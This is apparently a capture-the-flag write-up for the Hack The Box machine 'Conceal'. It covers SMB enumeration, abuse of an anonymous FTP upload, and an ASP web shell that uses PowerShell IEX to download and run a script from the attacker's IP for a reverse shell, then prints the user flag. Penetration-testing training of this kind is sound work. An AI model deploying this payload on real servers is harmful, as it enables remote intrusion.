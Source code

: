 ```sql
TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   72.27 ms 10.10.14.1
2   75.38 ms 10.10.10.116
```

## Crackmapexec
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/conceal]
└──╼ # crackmapexec smb 10.10.10.116
SMB         10.10.10.116    445    CONCEAL          [*] Windows 10.0 Build 15063 x64 (name:CONCEAL) (domain:Conceal) (signing:False) (SMBv1:False)
```
We see that the windows build here is `15063`.
Which shows that this is probably running `Windows 10 1703`.

# Inital FootHold
We have an anonymous login enabled on thje ftp port.
Any file uploaded on the FTP is put inside the `http://10.10.10.116/upload`.

So, We may  upload a  malicious asp file and execute it to get a reverse shell on the box.
The malicious asp file uploaded is given : 
```asp
┌─[0z09e]─[10.10.14.18]─[/dev/shm/conceal/www]
└──╼ $ cat rev.asp 
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("powershell.exe -ep bypass IEX(IWR http://10.10.14.18/magisk.ps1 -UseBasicParsing)")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

![[Pasted image 20210711132403.png]]

## Getting the user Flag
```python
PS C:\Users\Destitute\Desktop> ls


    Directory: C:\Users\Destitute\Desktop


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
-a----       12/10/2018     23:58             32 proof.txt                                        


PS C:\Users\Destitute\Desktop> cat proof.txt
6E9FDFE0DCB66E700FB9CB824AE5A6FF
```
